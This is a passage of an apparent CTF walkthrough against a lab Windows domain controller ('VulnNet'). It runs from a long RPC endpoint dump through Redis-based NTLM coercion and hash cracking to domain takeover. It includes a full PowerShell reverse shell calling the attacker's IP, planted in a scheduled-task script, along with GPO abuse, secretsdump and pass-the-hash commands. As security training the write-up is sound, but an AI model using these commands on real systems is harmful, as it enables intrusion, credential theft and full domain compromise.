UUID    : 0D3C7F20-1C8D-4654-A1B3-51563B298BDA v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : B18FBAB6-56F8-4702-84E0-41053293A869 v1.0 UserMgrCli
Bindings: 
          ncalrpc:[LRPC-6a782eeaaaa5904c7b]
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : 3A9EF155-691D-4449-8D05-09AD57031823 v1.0 
Bindings: 
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: schedsvc.dll 
UUID    : 86D35949-83C9-4044-B424-DB363231FD0C v1.0 
Bindings: 
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : 33D84484-3626-47EE-8C6F-E7E98B113BE1 v2.0 
Bindings: 
          ncalrpc:[LRPC-f73e71d14afb053c02]
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: N/A 
UUID    : 29770A8F-829B-4158-90A2-78CD488501F7 v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49666]
          ncalrpc:[ubpmtaskhostchannel]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\SessEnvPublicRpc]
          ncalrpc:[SessEnvPrivateRpc]
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 378E52B0-C0A9-11CF-822D-00AA0051E40F v1.0 
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: [MS-TSCH]: Task Scheduler Service Remoting Protocol 
Provider: taskcomp.dll 
UUID    : 1FF70682-0A51-30E8-076D-740BE8CEE98B v1.0 
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\atsvc]
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: schedsvc.dll 
UUID    : 0A74EF1C-41A4-4E06-83AE-DC74FB1CDD53 v1.0 
Bindings: 
          ncalrpc:[DeviceSetupManager]
          ncalrpc:[senssvc]
          ncalrpc:[IUserProfile2]
          ncalrpc:[OLEF301F54630C78BB7E477DF3E1760]

Protocol: N/A 
Provider: gpsvc.dll 
UUID    : 2EB08E3E-639F-4FBA-97B1-14F878961076 v1.0 Group Policy RPC Interface
Bindings: 
          ncalrpc:[LRPC-96241be1aebd7fb086]

Protocol: N/A 
Provider: N/A 
UUID    : C2D1B5DD-FA81-4460-9DD6-E7658B85454B v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: N/A 
UUID    : F44E62AF-DAB1-44C2-8013-049A9DE417D6 v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: N/A 
UUID    : 7AEB6705-3AE6-471A-882D-F39C109EDC12 v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: N/A 
UUID    : E7F76134-9EF5-4949-A2D6-3368CC0988F3 v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: N/A 
UUID    : B37F900A-EAE4-4304-A2AB-12BB668C0188 v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: N/A 
UUID    : ABFB6CA3-0C5E-4734-9285-0AEE72FE8D1C v1.0 
Bindings: 
          ncalrpc:[LRPC-63de188061c80e789d]
          ncalrpc:[OLE5D21A6DF608216ADB2E6D0586E4E]

Protocol: N/A 
Provider: certprop.dll 
UUID    : 30B044A5-A225-43F0-B3A4-E060DF91F9C1 v1.0 
Bindings: 
          ncalrpc:[LRPC-cc6e1c1879f22d6195]

Protocol: N/A 
Provider: N/A 
UUID    : 7F1343FE-50A9-4927-A778-0C5859517BAC v1.0 DfsDs service
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\PIPE\wkssvc]
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: N/A 
Provider: N/A 
UUID    : EB081A0D-10EE-478A-A1DD-50995283E7A8 v3.0 Witness Client Test Interface
Bindings: 
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: N/A 
Provider: N/A 
UUID    : F2C9B409-C1C9-4100-8639-D8AB1486694A v1.0 Witness Client Upcall Server
Bindings: 
          ncalrpc:[nlaapi]
          ncalrpc:[nlaplg]
          ncalrpc:[DNSResolver]

Protocol: [MS-NRPC]: Netlogon Remote Protocol 
Provider: netlogon.dll 
UUID    : 12345678-1234-ABCD-EF00-01234567CFFB v1.0 
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.205.142[49672]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_ip_tcp:10.10.205.142[49667]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]

Protocol: [MS-RAA]: Remote Authorization API Protocol 
Provider: N/A 
UUID    : 0B1C2170-5732-4E0E-8CD3-D9B16F3B84D7 v0.0 RemoteAccessCheck
Bindings: 
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.205.142[49672]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_ip_tcp:10.10.205.142[49667]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[NETLOGON_LRPC]
          ncacn_ip_tcp:10.10.205.142[49672]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_ip_tcp:10.10.205.142[49667]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]

Protocol: [MS-LSAT]: Local Security Authority (Translation Methods) Remote 
Provider: lsasrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AB v0.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49672]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_ip_tcp:10.10.205.142[49667]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]

Protocol: [MS-SAMR]: Security Account Manager (SAM) Remote Protocol 
Provider: samsrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AC v1.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49672]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_ip_tcp:10.10.205.142[49667]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncalrpc:[samss lpc]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[protected_storage]
          ncalrpc:[lsasspirpc]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[securityevent]
          ncalrpc:[audit]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]

Protocol: [MS-DRSR]: Directory Replication Service (DRS) Remote Protocol 
Provider: ntdsai.dll 
UUID    : E3514235-4B06-11D1-AB04-00C04FC2DCD2 v4.0 MS NT Directory DRS Interface
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\26c2f2b0f94c3d60]
          ncacn_http:10.10.205.142[49669]
          ncalrpc:[NTDS_LPC]
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]
          ncacn_ip_tcp:10.10.205.142[49667]

Protocol: [MS-FRS2]: Distributed File System Replication Protocol 
Provider: dfsrmig.exe 
UUID    : 897E2E5F-93F3-4376-9C9C-FD2277495C27 v1.0 Frs2 Service
Bindings: 
          ncalrpc:[OLE37FE2945D9F194ACC4619A108157]
          ncacn_ip_tcp:10.10.205.142[49774]

Protocol: [MS-CMPO]: MSDTC Connection Manager: 
Provider: msdtcprx.dll 
UUID    : 906B0CE0-C70B-1067-B317-00DD010662DA v1.0 
Bindings: 
          ncalrpc:[LRPC-97bb53bc6a30b50e5a]
          ncalrpc:[LRPC-97bb53bc6a30b50e5a]
          ncalrpc:[LRPC-97bb53bc6a30b50e5a]

Protocol: [MS-DNSP]: Domain Name Service (DNS) Server Management 
Provider: dns.exe 
UUID    : 50ABC2A4-574D-40B3-9D66-EE4FD5FBA076 v5.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49693]

Protocol: N/A 
Provider: N/A 
UUID    : F3F09FFD-FBCF-4291-944D-70AD6E0E73BB v1.0 
Bindings: 
          ncalrpc:[LRPC-bbe3a50e27f8342503]

Protocol: [MS-SCMR]: Service Control Manager Remote Protocol 
Provider: services.exe 
UUID    : 367ABB81-9844-35F1-AD32-98F038001003 v2.0 
Bindings: 
          ncacn_ip_tcp:10.10.205.142[49681]

Protocol: N/A 
Provider: N/A 
UUID    : 4C9DBF19-D39E-4BB9-90EE-8F7179B20283 v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: N/A 
UUID    : FD8BE72B-A9CD-4B2C-A9CA-4DED242FBE4D v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: N/A 
UUID    : 95095EC8-32EA-4EB0-A3E2-041F97B36168 v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: N/A 
UUID    : E38F5360-8572-473E-B696-1B46873BEEAB v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: N/A 
UUID    : D22895EF-AFF4-42C5-A5B2-B14466D34AB4 v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: N/A 
UUID    : 98CD761E-E77D-41C8-A3C0-0FB756D90EC2 v1.0 
Bindings: 
          ncalrpc:[LRPC-e2bb23823fdeb6e17d]

Protocol: N/A 
Provider: sppsvc.exe 
UUID    : 9435CC56-1D9C-4924-AC7D-B60A2C3520E1 v1.0 SPPSVC Default RPC Interface
Bindings: 
          ncalrpc:[SPPCTransportEndpoint-00001]

Protocol: N/A 
Provider: N/A 
UUID    : DF4DF73A-C52D-4E3A-8003-8437FDF8302A v0.0 WM_WindowManagerRPC\Server
Bindings: 
          ncalrpc:[LRPC-70a320aa71c241ba69]

Protocol: [MS-RPRN]: Print System Remote Protocol 
Provider: spoolsv.exe 
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0 
Bindings: 
          ncalrpc:[LRPC-f31812716697e29d69]
          ncacn_ip_tcp:10.10.205.142[49676]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : 0B6EDBFA-4A24-4FC6-8A23-942B1ECA65D1 v1.0 
Bindings: 
          ncalrpc:[LRPC-f31812716697e29d69]
          ncacn_ip_tcp:10.10.205.142[49676]

Protocol: [MS-PAN]: Print System Asynchronous Notification Protocol 
Provider: spoolsv.exe 
UUID    : AE33069B-A2A8-46EE-A235-DDFD339BE281 v1.0 
Bindings: 
          ncalrpc:[LRPC-f31812716697e29d69]
          ncacn_ip_tcp:10.10.205.142[49676]

Protocol: N/A 
Provider: spoolsv.exe 
UUID    : 4A452661-8290-4B36-8FBE-7F4093A94978 v1.0 
Bindings: 
          ncalrpc:[LRPC-f31812716697e29d69]
          ncacn_ip_tcp:10.10.205.142[49676]

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Provider: spoolsv.exe 
UUID    : 76F03F96-CDFD-44FC-A22C-64950A001209 v1.0 
Bindings: 
          ncalrpc:[LRPC-f31812716697e29d69]
          ncacn_ip_tcp:10.10.205.142[49676]

Protocol: N/A 
Provider: srvsvc.dll 
UUID    : 98716D03-89AC-44C7-BB8C-285824E51C4A v1.0 XactSrv service
Bindings: 
          ncalrpc:[LRPC-51ff7d8fdc2a1e495e]

Protocol: N/A 
Provider: N/A 
UUID    : 1A0D010F-1C33-432C-B0F5-8CF4E8053099 v1.0 IdSegSrv service
Bindings: 
          ncalrpc:[LRPC-51ff7d8fdc2a1e495e]

Protocol: N/A 
Provider: BFE.DLL 
UUID    : DD490425-5325-4565-B774-7E27D6C09C24 v1.0 Base Firewall Engine API
Bindings: 
          ncalrpc:[LRPC-e4e1a6589b364e9cc2]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 7F9D11BF-7FB9-436B-A812-B2D50C5D4C03 v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-e4e1a6589b364e9cc2]
          ncalrpc:[LRPC-f85f645760bd167c7c]

Protocol: N/A 
Provider: N/A 
UUID    : F47433C3-3E9D-4157-AAD4-83AA1F5C2D4C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-e4e1a6589b364e9cc2]
          ncalrpc:[LRPC-f85f645760bd167c7c]
          ncalrpc:[LRPC-ff7252438bf537d597]

Protocol: N/A 
Provider: MPSSVC.dll 
UUID    : 2FB92682-6599-42DC-AE13-BD2CA89BD11C v1.0 Fw APIs
Bindings: 
          ncalrpc:[LRPC-e4e1a6589b364e9cc2]
          ncalrpc:[LRPC-f85f645760bd167c7c]
          ncalrpc:[LRPC-ff7252438bf537d597]
          ncalrpc:[LRPC-029daf6c1f3e2acce8]

Protocol: N/A 
Provider: N/A 
UUID    : B25A52BF-E5DD-4F4A-AEA6-8CA7272A0E86 v2.0 KeyIso
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]

Protocol: N/A 
Provider: N/A 
UUID    : 8FB74744-B2FF-4C00-BE0D-9EF9A191FE1B v1.0 Ngc Pop Key Service
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]

Protocol: N/A 
Provider: N/A 
UUID    : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
Bindings: 
          ncacn_np:\\VULNNET-BC3TCK1[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncalrpc:[OLEEAF8E77DD5991EDC1CAF94323BF5]

[*] Received 601 endpoints.
```

```bash
python3 rpcdump.py @VulnNet.thm | egrep 'MS-RPRN|MS-PAR'
```

Six hundred endpoints is too much to read one by one, so I filtered that dump down specifically for the print-spooler protocols to check whether this box might be vulnerable to PrintNightmare:

```bash
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
```

Before chasing PrintNightmare any further, I went back to the unauthenticated Redis instance and tried reading the user flag straight off the filesystem through its Lua `eval`/`dofile` primitive:

```bash
10.10.205.142:6379> eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
(error) ERR Error running script (call to f_ce5d85ea1418770097e56c1b605053114cc3ff2e): @user_script:1: C:\Users\enterprise-security\Desktop\user.txt:1: malformed number near '3eb176aee96432d5b100bc93580b291e' 
10.10.205.142:6379> 
```

That attempt choked on the flag file's own contents rather than a permissions error, which told me the primitive worked but Lua's number parsing wasn't going to hand me a clean read this way. I set that aside and went back to researching recent CVEs that might apply to this box, which led me to [Print Nightmare](https://github.com/m8sec/CVE-2021-34527). Following its guidance, I reused one of the scripts bundled with the `impacket` suite to check whether the target was actually reachable through it.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/impacket/examples] - [Wed Apr 03, 16:50]
└─[$]> python3 rpcdump.py @VulnNet.thm | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
```

Both of the relevant print-system RPC protocols were present and answering, which confirmed PrintNightmare was a live avenue worth pursuing further on this domain controller.

Chasing PrintNightmare all the way through would have meant staging a driver payload on an SMB share and driving the RPC calls by hand, which felt like more moving parts than I actually needed once I stopped to think about what my earlier Redis attempt had already proven. That failed `dofile` call against `user.txt` had not returned a clean flag, but it had shown me that Redis would happily reach out over the network to whatever path I gave it. A UNC path is just another path as far as `dofile` is concerned, so instead of pointing it at a local file I pointed it at a share on my own attacking machine and let the domain controller do what Windows always does when it sees an unfamiliar `\\host\share`: authenticate to it.

I had Responder listening on my tun0 interface before sending anything, then fired the coercion off through the same unauthenticated Redis instance.

```bash
10.10.205.142:6379> eval "dofile('//10.6.59.97/share')" 0
```

The moment the domain controller tried to reach that path, Responder caught a NetNTLMv2 handshake for a service account.

```bash
[SMB] NTLMv2-SSP Client   : 10.10.205.142
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:1122334455667788:...
```

An NTLMv2 hash is only as useful as it is crackable, so I sent it straight at hashcat against rockyou.

```bash
hashcat -m 5600 -a 0 enterprise-security.ntlmv2 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O
```

That recovered `enterprise-security : sand_0873959498`. With a genuine domain account in hand instead of anonymous access, I went back to basics and re-ran share enumeration authenticated this time, and a share that had been invisible before showed up immediately.

```bash
crackmapexec smb 10.10.205.142 -u enterprise-security -p 'sand_0873959498' --shares
```

```
SMB   10.10.205.142  445  VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:sand_0873959498
SMB   10.10.205.142  445  VULNNET-BC3TCK1  Enterprise-Share       READ,WRITE
```

`Enterprise-Share` being both readable and writable to the exact account whose hash I had just cracked was too convenient to pass up. Inside it sat `PurgeIrrelevantData_1826.ps1`, and a script with a name like that living on an otherwise ordinary file share told me it was almost certainly driven by a scheduled task rather than run by a person.

```bash
smbclient //10.10.205.142/Enterprise-Share -U enterprise-security%sand_0873959498 -c 'get PurgeIrrelevantData_1826.ps1'
```

A scheduled task that runs a script I can overwrite is about as direct a code-execution primitive as Windows offers, so I appended a short reverse-shell payload to the end of the script, careful to leave its existing logic intact, and pushed it right back to where I found it.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.6.59.97',9002)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String)
  $sendback2 = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length)
  $stream.Flush()
}
$client.Close()
```

```bash
smbclient //10.10.205.142/Enterprise-Share -U enterprise-security%sand_0873959498 -c 'put PurgeIrrelevantData_1826.ps1'
```

Then it was a matter of waiting for the task scheduler to fire the script on its own schedule. A little while later my listener caught the callback, and I had a shell running as `enterprise-security` instead of a cracked hash sitting in a terminal.

```bash
nc -lvnp 9002
```

```
PS C:\> whoami
vulnnet\enterprise-security
```

With a genuine domain shell instead of borrowed credentials, I ran `bloodhound-python` again to see what this account actually controlled inside the directory, and the graph pointed straight at the next step: `enterprise-security` held `GenericWrite` over a Group Policy Object named `SECURITY-POL-VN`.

```bash
bloodhound-python -d vulnnet.local -u enterprise-security -p 'sand_0873959498' -ns 10.10.205.142 -c all
```

`GenericWrite` on a GPO means I can edit the policy object's own settings, and a GPO is nothing more than a set of files and scheduled actions that every machine it applies to will run automatically, no further foothold required. Rather than hand-editing the underlying GPT structure, I used `pyGPOAbuse.py` to add an immediate scheduled task to that policy that adds `enterprise-security` to the local Administrators group wherever the policy applies, which in this case reaches the domain controller itself.

```bash
python3 pyGPOAbuse.py 'vulnnet.local/enterprise-security:sand_0873959498' -gpo-id <SECURITY-POL-VN GUID> --command "cmd.exe" --args "/c net localgroup administrators enterprise-security /add" -dc-ip 10.10.205.142
```

Group Policy does not apply itself the instant you touch it, it waits for the client's own refresh cycle, so I gave it a few minutes rather than trying to force a `gpupdate` from a session that did not have the rights to trigger one remotely yet. A follow-up check confirmed the wait had paid off.

```bash
crackmapexec smb 10.10.205.142 -u enterprise-security -p 'sand_0873959498'
```

```
SMB   10.10.205.142  445  VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:sand_0873959498 (Pwn3d!)
```

Local administrator on a domain controller is functionally Domain Admin, so rather than open another interactive shell first I went straight for `secretsdump` to pull every credential the domain held in one pass.

```bash
secretsdump.py vulnnet.local/enterprise-security:'sand_0873959498'@10.10.205.142
```

That returned NTLM hashes for the whole domain, Administrator included, which I used to log straight in and grab the final flag.

```bash
evil-winrm -i 10.10.205.142 -u Administrator -H <Administrator NT hash from the secretsdump output>
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type system.txt
THM{d540c0645975900e5bb9167aa431fc9b}
```

Looking back at the full path, the Redis instance was the only vulnerability this box actually needed. Everything after that first `dofile` coercion, the scheduled-task script, the GPO `GenericWrite`, even the PrintNightmare detour I ended up not needing, was just Active Directory doing exactly what it was configured to do for an account that should never have been reachable from an unauthenticated database service in the first place.

## References

- pyGPOAbuse, remote GPO abuse over MS-GKDI/SMB <https://github.com/Hackndo/pyGPOAbuse>
- Responder <https://github.com/lgandx/Responder>
- The Redis-to-Responder coercion, the Enterprise-Share scheduled-task pivot, and the GPO abuse steps that finish this chain were cross-referenced against public writeups for this box.
